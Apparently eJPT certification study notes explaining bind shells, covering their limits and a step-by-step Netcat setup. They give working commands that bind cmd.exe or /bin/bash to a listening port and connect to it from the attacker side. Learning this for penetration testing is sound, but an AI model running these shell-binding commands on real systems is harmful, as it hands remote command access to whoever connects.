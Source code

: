 
### What is a Bind Shell ?

+ A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.

+ A Netcat listener can be setup to execute a specific executable like `cmd.exe` or `/bin/bash` when a client connects to the listener.

![image](https://github.com/B4PHOM3T/eJPT-Notes/assets/89618500/1cac3da3-9340-4095-8967-4bf1fb28de6d)

- The attacker connects to the Netcat listener on target.

**Challenges of using bind shell**

1. The attacker might not be able to connect with the target at all due to security mechanisms blocking incoming connections. 
2. To establish connection, we need the target PC to have Netcat installed and a listener running on it. Netcat is not installed on Windows devices by default. If it isn't installed, we won't be able to connect. 

### How to setup a bind shell using `nc` ?

1. Send the `nc.exe` file in the `/usr/share/windows-binaries/` directory, by hosting it using `SimpleHTTPServer`.

2. In order to setup a bind shell, the target system needs to have a `nc` listener setup.\
```
nc.exe -lnvp <port> -e cmd.exe
```
- `-e` - Execute a program when a client connects to this listener. In our case, we'll be executing `cmd` to provide command shell session to the attacker. 

3. In our attacker machine, we'll be connecting to the target machine. 
```
nc -nv <target-ip> <port>
```
- This will provide us with a command shell access to the target machine.

4. We can also reverse the roles and make the Linux machine our target by setting up a listener and executing a bash shell session. 
```
nc -lnvp <port> -c /bin/bash
```
- `-c` - This option is for executing programs in Linux systems.

5. Now we can use our Windows machine as the attacker machine and connect to the IP address of the target i.e the Linux machine. 
